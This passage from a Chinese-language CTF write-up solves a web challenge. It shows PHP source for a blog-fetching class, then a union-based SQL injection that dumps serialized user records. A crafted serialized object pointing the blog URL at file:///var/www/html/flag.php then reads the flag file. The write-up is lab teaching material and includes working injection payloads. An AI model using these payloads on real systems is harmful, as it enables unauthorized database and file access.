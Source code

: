 ```php
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

再配合输入`/view.php?no=-1 union/**/select 1,group_concat(data),3,4 from users#`，会得到

```
O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:14;s:4:"blog";s:9:"dtest.com";},O:8:"UserInfo":3:{s:4:"name";s:3:"leo";s:3:"age";i:22;s:4:"blog";s:15:"1iu2y.github.io";},O:8:"UserInfo":3:{s:4:"name";s:40:"tes2";s:3:"age";i:14;s:4:"blog";s:9:"fwfwf.com";}
```

这刚好就是`UserInfo`的序列化结果。所以可以猜到view.php的逻辑就是根据`no`查询，再将查询结果的`data`栏进行反序列化，得到`blog`内容，然后调用`getblogcontents()`。所以我们通过修改反序列化的输入，就能够绕过`isValidBlog()`的判断。

而我们之前得到的列名结果为`no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`，`data`在第四列，所以构造的反序列化字符串应该放在select的第四个位置。再结合php伪协议`file://`，以及`/flag.php`的请求结果为200（理论上来说这一点在扫描的时候就能够得知），可以构造以下payload：

```
/view.php?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"a";s:3:"age";i:10;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```

查看源码得到base64编码。

![image-20210825140012191](image-20210825140012191.png "base64")

解码得到flag

```php
<?php

$flag = "flag{340198f3-c539-4aac-8a0c-5c6759155623}";
exit(0);
```
